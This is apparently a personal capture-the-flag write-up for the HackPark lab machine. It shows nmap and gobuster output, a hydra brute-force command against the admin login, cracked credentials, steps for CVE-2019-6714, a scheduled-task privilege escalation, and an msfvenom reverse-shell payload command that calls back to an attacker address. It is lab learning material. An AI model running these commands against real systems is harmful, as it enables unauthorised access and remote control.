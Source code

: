 Hack_Park.doc
=================

name : Eviyatar Cohen

Date : 1/10/2022

IP = 10.10.194.183
-------------------------------------------------------

Nmap Results :
================
nmap -sC -sV 10.10.194.183
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-01 01:44 EDT
Nmap scan report for 10.10.194.183
Host is up (0.087s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: hackpark | hackpark amusements
|_http-server-header: Microsoft-IIS/8.5
3389/tcp open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
|   NetBIOS_Computer_Name: HACKPARK
|   DNS_Domain_Name: hackpark
|   DNS_Computer_Name: hackpark
|   Product_Version: 6.3.9600
|_  System_Time: 2022-10-01T05:45:29+00:00
|_ssl-date: 2022-10-01T05:45:30+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2022-09-30T05:40:20
|_Not valid after:  2023-04-01T05:40:20
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.81 seconds

-------------------------------------------------------------------------

GoBuster Results:
=====================
gobuster dir -u http://10.10.194.183 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.194.183
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/01 01:54:28 Starting gobuster in directory enumeration mode
===============================================================
/contact              (Status: 200) [Size: 9935]
/blog                 (Status: 500) [Size: 1208]
/search               (Status: 200) [Size: 8407]
/archives             (Status: 200) [Size: 8326]
/default              (Status: 500) [Size: 1763]
/archive              (Status: 200) [Size: 8325]
/content              (Status: 301) [Size: 152] [--> http://10.10.194.183/content/]
/contactus            (Status: 200) [Size: 9937]                                   
/Default              (Status: 500) [Size: 1763]                                   
/contacts             (Status: 200) [Size: 9936]                                   
/contact_us           (Status: 200) [Size: 9938]                                   
/scripts              (Status: 301) [Size: 152] [--> http://10.10.194.183/scripts/]
/account              (Status: 301) [Size: 152] [--> http://10.10.194.183/account/]
/admin                (Status: 302) [Size: 173] [--> http://10.10.194.183/Account/login.aspx?ReturnURL=/admin]

-----------------------------------------------------------------------

Found Login Page in /admin :
================================

Payload For Bruteforce Website Login:
---------------------------------------
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.194.183 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=KOZQvgRj1XFoy59oMcXSMlYspVg1ZU2vqUDcuU8reRwqJG1kRELByNKgKqDuYrQSV7E18U9d7bRfK7a0Vpa1EumyCFAQKhzEZ3UXEsrEMSRamKOKNGOok%2BT5tFurBMFHJ9f%2F052nDCgsAWzCWr05etRWw6TPMJuZs0EX2TF7m0bQgKaFEz4rnwfHVHkFbtodNUG%2Bj4aig4LKJjNeZUk934UfU%2FMq3y3TyPjLKHjeEKwv50zZdm%2FGKkKeoGVRIRAc6OBHCjgl9vfQdCNacurq7iBBjlRxi1TQuJ5AGW1Adg%2FGQmqKZX7QbOD3d5w%2FVn9ZwhxB3rpzMVBxrjuyXee53xs%2F%2BlrD05lZvSBReMeyleCXcLPs&__EVENTVALIDATION=%2Fk2eqWplIHoBHqKxVZ4UcTcb5unKn7RxTh0a9vnxw21CnaNOxqUTfByi1PCIb4%2BjZkh6t1vRsfGDS296i4UcupUd0m%2BkoBJK9dEpZsEgNYg4V6i3At69Oe%2BbHNN3Xo%2FjQiPygecLa8t7Ir0YXmqPWVzbm9TQb972rKZGTEx8Zktr7upf&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"

---------------------------------------

Found Credentials!!
====================
admin:1qaz2wsx

Using CVE-2019-6714 To get a shell to the mechine :
----------------------------------------------------
Need To Upload The File As PostView.ascx and go to http://<ip>/?theme=../../App_Data/files

after it i Used WindowsScheduler to mv Message.exe to bak file and 
insted of it put my shell file to get root shell using Msfvenom


Payload Of Msfvenom :
=========================
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.26.95 LPORT=9001 -f exe > shell.exe


